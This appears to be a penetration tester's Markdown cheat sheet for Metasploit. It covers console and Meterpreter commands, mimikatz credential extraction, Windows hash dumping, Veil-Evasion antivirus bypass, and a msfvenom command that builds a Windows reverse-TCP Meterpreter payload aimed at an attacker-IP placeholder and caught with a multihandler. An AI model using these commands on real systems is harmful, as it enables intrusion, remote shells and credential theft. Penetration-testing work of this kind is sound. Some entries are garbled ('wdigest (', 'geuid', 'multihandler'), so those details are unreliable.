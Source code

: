 # METASPLOIT

* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) - the ultimate guide to the Metasploit Framework
* [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion/) - generate metasploit payloads that bypass anti-virus solutions

Starting
--------
```
service postgresql start
msfdb init
msfconsole
```

Useful Metasploit Console Commands
----------------------------------
* [MSFconsole Core Commands](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)  
```
jobs
sessions -i 1
set session 1
```

Useful Meterpreter Commands
---------------------------
```
wdigest (
sysinfo
exit/quit
download/upload (use C:\\)
edit
getpid
geuid
ps
kill
execute
migrate
search -f network-secret.txt
shell
```
* Load mimikatz (needs SYSTEM privs; better migrate to 64bit process): `load mimikatz`, then use `msv`, `kerberos`, `wdigest` for extracting passwords.  
* Post-exploitation module: `run winenum` script.  
* Windows hashes: `run post/windows/gather/smart_hashdump`  

* [Web Delivery explained](https://www.offensive-security.com/metasploit-unleashed/web-delivery/) //tip: check if there's port added in the payload URL

msfvenom
--------

* [How to use msfvenom](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)

Typical Windows exe payload:

`msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe`  

As an example, the payload can be delivered via webserver. Then `use exploit/multihandler`, set appropriate payload, IPs, ports etc.
